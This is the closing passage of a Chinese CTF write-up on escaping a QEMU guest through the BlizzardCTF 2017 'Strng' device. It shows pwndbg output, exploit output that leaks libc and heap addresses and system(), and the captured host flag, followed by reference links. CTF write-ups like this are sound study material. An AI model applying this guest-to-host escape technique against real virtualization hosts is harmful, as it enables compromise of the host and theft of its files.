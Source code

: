 ```bash
pwndbg> print *(STRNGState*)$rdi
$1 = {
  pdev = {
    qdev = {
      parent_obj = {
        class = 0x55de43a3f2e0,
        free = 0x7fc137fedba0 <g_free>,
        properties = 0x55de45283c00,
        ref = 0x13,
...
pwndbg> print ((STRNGState*)$rdi).regs
$3 = {0x0, 0x0, 0x1e28b6de, 0x6f6f722f, 0x6c662f74, 0x6761, 0x0 <repeats 58 times>}
```

最后可以看到成功的拿到了宿主机下面的flag：

```bash
leaking srandom addr: 0x7fc137211bb0
libc base: 0x7fc1371ce000
system addr: 0x7fc13721d440
leaking heap addr: 0x55de43b35ef0
parameter addr: 0x55de43b6fb6c
flag{welcome_to_the_qeme_world}
```

## 小结

学到了很多的东西，也看到了很多的东西要学。

相关文件和脚本[链接](https://github.com/ray-cp/vm-escape/tree/master/qemu-escape/BlizzardCTF2017-Strng)

## 参考链接

1. [Blizzard CTF 2017: Sombra True Random Number Generator (STRNG)](https://github.com/rcvalle/blizzardctf2017)
2. [BlizzardCTF 2017 - Strng](https://uaf.io/exploitation/2018/05/17/BlizzardCTF-2017-Strng.html)
3. [Blizzard CTF 2017 Strng](https://www.w0lfzhang.com/2018/11/05/Blizzard-CTF-2017-Strng/)

文章先发于[先知](https://xz.aliyun.com/t/6618)社区。

